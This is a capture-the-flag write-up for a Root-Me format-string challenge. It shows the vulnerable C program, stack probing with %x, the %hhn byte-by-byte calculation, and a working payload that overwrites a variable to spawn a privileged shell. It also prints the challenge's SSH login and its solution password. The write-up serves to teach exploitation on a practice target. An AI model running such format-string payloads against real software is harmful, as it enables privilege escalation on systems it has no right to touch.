 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br>
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch14\@challenge02.root-me.org
- Password:&emsp;app-systeme-ch14

![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
References:

[%n format specifier](https://www.geekforgeeks.org/g-fact-31/)<br>

Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to discover the posibility of overwritting and "scanning" the stack<br>
`./ch14 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`<br>
Output:

![image](https://user-images.githubusercontent.com/48288606/146907436-2d2cfdb9-ab69-411b-a6e7-2366ba28adb9.png)

- As shown, the "AAAA" value is written in 9th of format string, we can prepare our value to this location.
- There are 2 ways to get **"deadbeef"** value. We can split it into 4 bytes or 2 bytes, the more division, the more relief execution time is. So i take second method.
- Split `0xdeadbeef` into 4 bytes and we will overwrite  with "little-endian" order. `0xef`, `0xbe`, `0xad`, `0xde` and convert to decimal for calculating for later as below:
```
>>> int(0xef)
239
>>> int(0x1be)
446
>>> int(0x2ad)
685
>>> int(0x3de)
990
```
- We have to make these value increase continously in our stack so we ensure that **0xef < 0x1be < 0x2ad < 0x3de** and then we use **%hhn** to get 1 byte value to have our desired values. (We can use **%hn** if we use the first method - split into 2 parts of 2 bytes). Then we calculate the value to add between these bytes to get specific value. 
 - We already have 16 bytes address, to get the right value of first byte. We pad more **239 - 16 = 223**
 - We already have 239 bytes above, to get the right value of first byte. We pad more **446 - 239 = 207**
 - We already have 446 bytes above, to get the right value of first byte. We pad more **685 - 446 = 239**
 - We already have 685 bytes above, to get the right value of first byte. We pad more **990 - 685 = 305**

Here's the layout of what we've done until now: 

![image](https://user-images.githubusercontent.com/48288606/146911826-3d6f1aa6-cec3-4516-83da-dbaae0f18105.png)

Payload: `./ch14 $(python -c "print('\x98\xfa\xff\xbf' + '\x99\xfa\xff\xbf' + '\x9a\xfa\xff\xbf' + '\x9b\xfa\xff\xbf' + '%223d%9\$hhn' + '%207d%10\$hhn' + '%239d%11\$hhn' + '%305d%12\$hhn')")`

Pass: 1l1k3p0Rn&P0pC0rn


